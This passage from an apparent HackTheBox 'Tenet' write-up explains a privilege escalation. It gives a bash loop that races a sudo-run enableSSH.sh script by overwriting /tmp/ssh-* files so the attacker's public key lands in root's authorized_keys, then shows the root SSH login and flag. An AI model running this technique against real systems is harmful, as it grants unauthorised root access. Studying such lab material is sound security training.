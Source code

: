                     exit 1
    
            fi
    
    }
    

After the call to `addKey` there’s a call to `checkAdded`:

    
    
    checkAdded() {
    
            sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)
    
            if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then
    
                    /bin/echo "Successfully added $sshName to authorized_keys file!"
    
            else
    
                    /bin/echo "Error in adding $sshName to authorized_keys file!" 
    
            fi
    
    } 
    

It uses `cut` to get the user from the SSH public key entry, and then checks
that that names is in the `authorized_keys` file.

### Exploit

I can abuse this script by executing an attack on the temp file. I’ll watch
for the file, and then change it’s contents to my SSH public key, so that my
key is written into `/root/.ssh/authorized_keys`.

I want a loop that will run constantly, looking for files starting with `ssh-`
in `/tmp`, and replacing their contents with my public key.

    
    
    neil@tenet:~$ while true; do for fn in /tmp/ssh-*; do echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > $fn; done; done
    

Now, in a second terminal, I’ll run `sudo enableSSH.sh`:

    
    
    neil@tenet:~$ sudo enableSSH.sh 
    Error in adding root@ubuntu to authorized_keys file!
    

Because it’s an attack on a race condition, I will lose the race sometimes,
and I’ll know that because it’ll say that it successfully added root@ubuntu.
When it fails, nobody@nothing will be in `authorized_keys`, and I’ll get the
failure message:

    
    
    neil@tenet:~$ sudo enableSSH.sh 
    Error in adding root@ubuntu to authorized_keys file!
    

Then I can connect over SSH as root:

    
    
    root@kali# ssh -i ~/keys/ed25519_gen root@10.10.10.223
    Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)
    ...[snip]...
    root@tenet:~# cat root.txt
    4173ef70************************
    

[](/2021/06/12/htb-tenet.html)

